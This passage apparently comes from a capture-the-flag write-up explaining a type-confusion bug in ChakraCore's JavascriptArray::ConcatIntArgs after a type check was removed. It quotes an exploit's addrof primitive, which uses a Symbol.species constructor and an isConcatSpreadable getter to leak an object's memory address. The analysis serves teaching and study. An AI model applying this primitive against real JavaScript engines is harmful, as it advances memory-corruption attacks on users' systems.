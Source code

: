 The code is in the [JavascriptArray::ConcatIntArgs](https://github.com/Microsoft/ChakraCore/blob/dd33b4ceaf4b38b44d279d13988ecbd31df46ed2/lib/Runtime/Library/JavascriptArray.cpp#L3143) function, where `pDestArray`'s data type is **"suppose"** to be `JavascriptNativeIntArray`. 

Here it **removed the code that does the type checking of `pDestArray`**. There's no need to do the type checking right ? Since `pDestArray` will always be `JavascriptNativeIntArray` isn't it ? Well......

## Analyzing the Exploit

We now start analyzing the challenge [exploit code](https://gist.github.com/eboda/18a3d26cb18f8ded28c899cbd61aeaba) ( written by [eboda](https://twitter.com/edgarboda) ) and see how the exploit works. We'll focus on the `addrof` and the `fakeobj` functions, since it's the most important part of the entire exploit.


### addrof
The `addrof` function is used for leaking an object's memory address. The most important part are the following code:

```javascript
    var cons = new Function();
    cons[Symbol.species] = function() {
        qq = []; // here qq is just a JavascriptNativeIntArray
        return qq;
    }

    // using the species contructor allows us to get a handle on the result array
    // of functions such as map() or concat()
    a.constructor = cons;

    // Here we define a custom getter for the Symbol.isConcatSpreadable property
    // In it we change the type of qq by simply assigning an object to it
    fakeProp = { get: function() {
        b[1] = obj;
        qq[0] = obj; // qq was JavascriptNativeIntArray, now changed to JavascriptArray
        return true;
    }};

    Object.defineProperty(b, Symbol.isConcatSpreadable, fakeProp);
    
    // trigger the vulnerability
    var c = a.concat(b);

```

When the line `var c = a.concat(b);` was executed, it will first call [ArraySpeciesCreate()](https://github.com/Microsoft/ChakraCore/blob/dd33b4ceaf4b38b44d279d13988ecbd31df46ed2/lib/Runtime/Library/JavascriptArray.cpp#L3437), which in this case will return a `JavascriptNativeIntArray` ( line 2~9 ). Then it will goto [line 3497](https://github.com/Microsoft/ChakraCore/blob/dd33b4ceaf4b38b44d279d13988ecbd31df46ed2/lib/Runtime/Library/JavascriptArray.cpp#L3497) and call [ConcatIntArgs()](https://github.com/Microsoft/ChakraCore/blob/dd33b4ceaf4b38b44d279d13988ecbd31df46ed2/lib/Runtime/Library/JavascriptArray.cpp#L3143), our vulnerability function.
